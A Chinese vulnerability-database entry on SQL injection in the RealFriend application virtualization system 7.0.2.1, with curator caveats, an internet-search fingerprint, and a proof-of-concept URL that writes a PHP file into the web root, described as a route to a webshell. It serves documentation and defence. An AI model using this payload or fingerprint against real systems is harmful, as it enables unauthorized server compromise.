



# 瑞友应用虚拟化系统 GetBSAppUrl AppID SQL 注入至文件写入

## 条目说明

- 对象与具体问题：瑞友应用虚拟化系统；GetBSAppUrl AppID SQLi至文件写入
- 版本、配置及部署条件：7.0.2.1；Windows安装路径/MySQL FILE权限
- 认证与权限前提：未说明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 不是ERP，应虚拟化产品并与OA误类同厂材料关联
- SQLi例直接outfile写PHP，需DB FILE/secure_file_priv/路径权限条件
- 固定Program Files路径和文件名不可泛用，缺只读判据/修复build

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

瑞友 应用虚拟化系统 GetBSAppUrl方法存在SQL注入漏洞，由于参数传入没有进行过滤导致存在SQL注入，攻击者通过漏洞可以获取数据库敏感信息

### 漏洞影响

```
瑞友应用虚拟化系统 7.0.2.1
```

### 网络测绘

```
"CASMain.XGI?cmd=GetDirApp" && title=="瑞友应用虚拟化系统"
```

### 漏洞复现

登陆页面


在 GetBSAppUrl 方法中存在SQL注入漏洞，通过漏洞可以写入Webshell文件



验证POC

```
/index.php?s=/Agent/GetBSAppUrl/AppID/')%3bselect+0x3c3f70687020706870696e666f28293b3f3e+into+outfile+%27C%3a\\Program+Files+(x86)\\RealFriend\\Rap+Server\\WebRoot\\test7.php%27%23/123
```



```
/test7.php
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
